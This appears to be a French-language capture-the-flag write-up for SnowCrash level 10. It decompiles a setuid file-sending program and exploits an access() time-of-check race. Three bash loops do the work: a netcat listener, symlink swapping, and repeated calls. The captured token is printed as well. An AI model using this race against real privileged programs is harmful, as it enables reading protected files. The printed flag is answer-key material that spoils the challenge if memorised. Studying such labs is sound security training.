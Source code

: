
# **Level 10**

Pour le level10, on a un executable et un fichier `token` dans le repertoire courant


```
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

On decompile l'executable pour voir ce qu'il fais
```
int main(int argc,char **argv)

{
  char *__cp;
  uint16_t uVar1;
  int iVar2;
  int iVar3;
  ssize_t sVar4;
  size_t __n;
  int *piVar5;
  char *pcVar6;
  int in_GS_OFFSET;
  char *file;
  char *host;
  int fd;
  int ffd;
  int rc;
  char buffer [4096];
  sockaddr_in sin;
  undefined local_1024 [4096];
  sockaddr local_24;
  int local_14;
  
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  if (argc < 3) {
    printf("%s file host\n\tsends file to host if you have access to it\n",*argv);
                    // WARNING: Subroutine does not return
    exit(1);
  }
  pcVar6 = argv[1];
  __cp = argv[2];
  iVar2 = access(argv[1],4);
  if (iVar2 == 0) {
    printf("Connecting to %s:6969 .. ",__cp);
    fflush(stdout);
    iVar2 = socket(2,1,0);
    local_24.sa_data._2_4_ = 0;
    local_24.sa_data._6_4_ = 0;
    local_24.sa_data._10_4_ = 0;
    local_24._0_4_ = 2;
    local_24.sa_data._2_4_ = inet_addr(__cp);
    uVar1 = htons(0x1b39);
    local_24._0_4_ = local_24._0_4_ & 0xffff | (uint)uVar1 << 0x10;
    iVar3 = connect(iVar2,&local_24,0x10);
    if (iVar3 == -1) {
      printf("Unable to connect to host %s\n",__cp);
                    // WARNING: Subroutine does not return
      exit(1);
    }
    sVar4 = write(iVar2,".*( )*.\n",8);
    if (sVar4 == -1) {
      printf("Unable to write banner to host %s\n",__cp);
                    // WARNING: Subroutine does not return
      exit(1);
    }
    printf("Connected!\nSending file .. ");
    fflush(stdout);
    iVar3 = open(pcVar6,0);
    if (iVar3 == -1) {
      puts("Damn. Unable to open file");
                    // WARNING: Subroutine does not return
      exit(1);
    }
    __n = read(iVar3,local_1024,0x1000);
    if (__n == 0xffffffff) {
      piVar5 = __errno_location();
      pcVar6 = strerror(*piVar5);
      printf("Unable to read from file: %s\n",pcVar6);
                    // WARNING: Subroutine does not return
      exit(1);
    }
    write(iVar2,local_1024,__n);
    iVar2 = puts("wrote file!");
  }
  else {
    iVar2 = printf("You don\'t have access to %s\n",pcVar6);
  }
  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
                    // WARNING: Subroutine does not return
    __stack_chk_fail();
  }
  return iVar2;
}
```

L'executable essaye d'ouvrir le fichier en parametre pour envoyer son contenu a un serveur dont l'host est passer en parametre passant par le port `6969`, pour ca il utilise access pour verifier qu'il a droit d'ouvrir le fichier

Avec nos recherches nous avons trouve une faille sur access
[Exploit access with symlink](https://mirror.xyz/0x512e8a35C72F08caD58c50352f567971df8294f7/HeTWxEZ6EUkQHwb8JALSHnNwXGZUVAE5FtPjM5_q5jU)

Pour l'exploiter nous utilisons `trois` script bash

### server.sh
Le premier nous permet d'ouvrir un serveur qui va ecouter sur localhost:6969

```
while true; do
    nc -l 6969

done
```

### symlink.sh

Le second va nous permettre de changer en boucle la destination d'un lien symbolique pour alternativement le faire pointer sur `token` puis sur `allowedfile` un fichier sur lequel on possede les droits

> level10@SnowCrash:/var/crash$ touch allowedfile

```
while true; do
    ln -sfn /var/crash/allowedfile /var/crash/level10
    ln -sfn /home/user/level10/token /var/crash/level10

done
```

### client.sh
Et enfin le dernier va nous permettre d'appeler l'executable en indiquant en parametre le lien symbolique et `127.0.0.1` comme host

```
while true; do
    /home/user/level10/level10 /var/crash/level10 127.0.0.1

done
```

Et une fois ces trois scripts lances, si nous allons dans l'output du serveur

```
level10@SnowCrash:/var/crash$ sh server.sh
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
^C
```

> ### NEXT : [Level 11](/level11/resources/README.md)
